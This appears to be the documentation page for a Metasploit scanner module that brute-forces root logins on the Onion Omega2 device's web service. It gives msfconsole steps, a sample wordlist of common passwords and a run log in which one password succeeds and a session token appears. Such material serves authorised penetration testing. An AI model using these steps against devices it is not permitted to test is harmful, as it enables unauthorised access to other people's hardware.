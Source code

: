 The onion_omega2_login module is used to brute-force credentials for Onion Omage2 devices.

## Vulnerable Application
* Onion Omage2 HTTPd Service

![Onion Omega2](https://raw.githubusercontent.com/OnionIoT/Onion-Docs/master/Omega2/Documentation/Get-Started/img/unbox-6-omega-led-detail.jpg)

![Onion Omega2 OnionOS Web Page](https://i.imgur.com/nrHnQaW.png)

## Verification Steps
1. Plug your Onion Omega2 device to a power source. 
    - First time setup can be found [here](https://docs.onion.io/omega2-docs/first-time-setup.html)
2. Connect to its Wi-Fi network.
3. Start `msfconsole`
4. Do: `use auxiliary/scanner/http/onion_omega2_login`
5. Do: `set RHOSTS 192.168.3.1`
6. Do: `set USERPASS_FILE <user pass dictionary>`
    - username and password seperated by space and one pair per line.
7. Do: `run`

Sample userpass file:
```text
root 123456
root password
root 123456789
root 12345678
root 12345
root 10601
root qwerty
root 123123
root 111111
root abc123
root 1234567
root dragon
root 1q2w3e4r
root sunshine
root 654321
root master
```

## Scenario 
```
msf5 > use auxiliary/scanner/http/onion_omega2_login
msf5 auxiliary(scanner/http/onion_omega2_login) > set RHOSTS 192.168.3.1
RHOSTS => 192.168.3.1
msf5 auxiliary(scanner/http/onion_omega2_login) > set USERPASS_FILE something.txt
USERPASS_FILE => something.txt
msf5 auxiliary(scanner/http/onion_omega2_login) > run

[*] Running for 192.168.3.1...
[*] 192.168.3.1:80 - [ 1/16] - root:123456 - Failure
[!] No active DB -- Credential data will not be saved!
[*] 192.168.3.1:80 - [ 2/16] - root:password - Failure
[*] 192.168.3.1:80 - [ 3/16] - root:123456789 - Failure
[*] 192.168.3.1:80 - [ 4/16] - root:12345678 - Failure
[*] 192.168.3.1:80 - [ 5/16] - root:12345 - Failure
[+] Ubus RPC Session: 403e133730879d23a2a0df022e19c19c
[+] 192.168.3.1:80 - [ 6/16] - root:10601 - Success
[*] 192.168.3.1:80 - [ 7/16] - root:qwerty - Failure
[*] 192.168.3.1:80 - [ 8/16] - root:123123 - Failure
[*] 192.168.3.1:80 - [ 9/16] - root:111111 - Failure
[*] 192.168.3.1:80 - [10/16] - root:abc123 - Failure
[*] 192.168.3.1:80 - [11/16] - root:1234567 - Failure
[*] 192.168.3.1:80 - [12/16] - root:dragon - Failure
[*] 192.168.3.1:80 - [13/16] - root:1q2w3e4r - Failure
[*] 192.168.3.1:80 - [14/16] - root:sunshine - Failure
[*] 192.168.3.1:80 - [15/16] - root:654321 - Failure
[*] 192.168.3.1:80 - [16/16] - root:master - Failure
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
